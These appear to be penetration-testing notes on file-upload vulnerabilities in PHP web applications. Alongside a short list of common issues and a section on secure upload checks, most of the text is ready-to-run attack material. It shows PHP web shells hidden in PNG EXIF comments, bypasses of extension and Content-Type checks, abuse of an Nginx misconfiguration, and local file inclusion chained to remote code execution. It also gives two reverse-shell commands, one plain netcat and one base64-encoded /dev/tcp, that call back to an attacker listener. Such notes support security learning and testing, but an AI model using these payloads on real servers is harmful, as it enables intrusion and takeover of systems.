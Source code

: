#### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
$ strings 1.png  #get all strings from image file
$ exiftool 1.png #get meta information in files
```
Install `exiftool`:
```
$ sudo apt-get install libimage-exiftool-perl -yqq
```
Create test image:
```
$ convert -size 1x1 xc:transparent image.jpg
```

Place the PHP code in a meta-data comment:
```
$ echo '<?php system($_GET["cmd"]);?>' > 1.php
$ exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
$ curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure file-upload implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. Nginx misconfiguration for PHP apps

Docs: `https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/#passing-uncontrolled-requests-to-php`

Original upload (contains embedded PHP code `<?php echo 123;?>` in comment meta-data section):
```
$ http -b "http://$target/admin/uploads/123.png" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 3c 3f 70 68 70 20 65  |tComment.<?php e|
00000090  63 68 6f 20 31 32 33 3b  3f 3e 80 4c 58 03 00 00  |cho 123;?>.LX...|
000000a0  00 0a 49 44 41 54 08 d7  63 60 00 00 00 02 00 01  |..IDAT..c`......|
000000b0  e2 21 bc 33 00 00 00 00  49 45 4e 44 ae 42 60 82  |.!.3....IEND.B`.|
000000c0
```

Abusing the misconfiguration (comment section contains the output of the PHP code `Comment.123`):
```
$ http -b "http://$target/admin/uploads/123.png/.php" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 31 32 33 80 4c 58 03  |tComment.123.LX.|
00000090  00 00 00 0a 49 44 41 54  08 d7 63 60 00 00 00 02  |....IDAT..c`....|
000000a0  00 01 e2 21 bc 33 00 00  00 00 49 45 4e 44 ae 42  |...!.3....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```

Reverse shell with embedded PHP inside image:
```
$ exiftool -all='' image.png
$ exiftool -comment='<?=system($_GET["cmd"]);?>' image.png # upload this on server
$ ncat -nlvp 9999 # your local listener
$ cmd='nc 192.168.209.146 9999 -e /bin/bash'
$ http http://$target/admin/uploads/123.png/.php?cmd="$cmd"
```

#### 1.5. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```

##### Example 3:

Change the original file type in the request from `Content-Type: text/php` to `Content-Type: image/png`:
```
POST /upload/ HTTP/1.1
[FORMATTING CUT]
Content-Disposition: form-data; name="uploaded"; filename="f.php"
Content-Type: image/png

<?php echo 1234;
```

##### Example 4 - LFI + file upload = RCE:

Embedded PHP code in image (note the `/*` comment after `system()` call):
```
$ convert -size 1x1 xc:transparent xxx.jpg
$ exiftool -comment='<?php system("whoami");/*' xxx.png
```
This will comment out the remaining parts of the image when used with file inclusion in PHP (`include` / `require`).

Once uploaded the image will be placed in the `/uploads` directory.
```
$ http http://$target/uploads/xxx.png | strings
IHDR
gAMA
 cHRM
tRNS
bKGD
!tEXtComment
<?php system("whoami");/*
IDAT
IEND
```

Local file inclusion (LFI) bug can be used as:
```
$ http http://$target/lol?page=file.php\n/../../../../../../../../../etc/passwd
$ http http://$target/lol?page=file.php\n/../../../uploads/xxx.png
```
This uses directory traversal to `uploads` folder to include the malicious PNG (which contains PHP code in the comment section).

Response will contain binary data from PNG and the result of `system` PHP code executed remotely:
```
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8

�PNG....EXtCommentwww-data
```
The `whoami` OS command returns `www-data`.

Reverse shell payload:
```
$ c=`echo -n '/bin/bash -i >& /dev/tcp/192.168.209.146/9999 0>&1' | base64`
$ x="system(\"bash -c '{echo,$c}|{base64,-d}|{bash,-i}'\");/*"
$ exiftool -comment="<?php $x" xxx.png
```
